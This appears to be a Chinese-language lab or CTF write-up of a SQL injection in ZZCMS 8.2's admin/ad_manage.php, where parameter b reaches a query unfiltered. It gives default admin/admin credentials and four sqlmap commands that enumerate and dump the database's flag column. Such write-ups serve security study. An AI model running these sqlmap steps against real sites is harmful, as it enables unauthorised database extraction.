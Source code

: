 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-46436)
站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在admin/ad_manage.php存在sql注入漏洞
## 2. 漏洞分析
[ZZCMS2021 has a SQL injection vulnerability · Issue #1 · xunyang1/ZZCMS · GitHub](https://github.com/xunyang1/ZZCMS/issues/1)
将参数 b 未做过滤直接给了$b，而 \$b 又直接带入 sql 语句查询了。
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171443492.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171443314.png)

## 3. 漏洞复现
登录：admin/admin，抓包跑 sqlmap
![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171543851.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171543640.png)

```bash
python sqlmap.py -r post.txt -p b --dbs --batch --random-agent  --level=5 --risk 3
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms --tables
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms -T flag --columns
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms -T flag -C flag --dump
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171544202.png)
![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171545929.png)

![6.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171545621.png)
